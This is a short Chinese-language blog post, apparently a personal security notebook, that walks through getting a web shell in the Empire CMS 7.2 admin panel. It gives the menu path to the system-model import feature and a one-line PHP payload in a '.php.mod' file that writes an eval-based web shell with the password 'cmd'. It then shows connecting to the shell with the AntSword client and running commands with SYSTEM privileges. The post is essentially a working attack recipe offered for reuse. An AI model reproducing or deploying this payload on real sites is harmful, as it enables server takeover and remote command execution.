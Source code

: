 ```yaml
---
layout: post
title: "帝国 cms 7.2 后台 GetShell" 
subtitle: "帝国cms 7.2 后台 GetShell"
date: 2019-07-10
author: ppbibo
category: security
---
```


[TOC]

# 帝国cms 7.2 后台 GetShell





**PS：**因为经常用到帝国cms 7.2 所以这里记录下Getshell的方法



## 0x1 流程

系统设置——数据表与系统模型——管理数据表——管理系统模型——导入系统模型

![1](/static/img/diguo1.png)

![diguo2](/static/img/diguo2.png)

##0x2 流程2

在本地新建1.php.mod文件,利用fopen函数写出一个x.php文件，文件内容为fopen函数第二个参数值，然后保存。

**[File Name]** 1.php.mod 

```bash
<?fputs(fopen("x.php","w"),"<?eval(\$_POST[cmd]);?>")?>
```

![diguo3](/static/img/diguo3.png)

导入成功之后访问 `http://abc.xxx.xxx.cn/e/admin/x.php` 密码为 cmd



## 0x3 中国蚁剑连接

![diguo4](/static/img/diguo4.png)

查看权限发现为 system 直接执行相关命令

![diguo5](/static/img/diguo5.png)



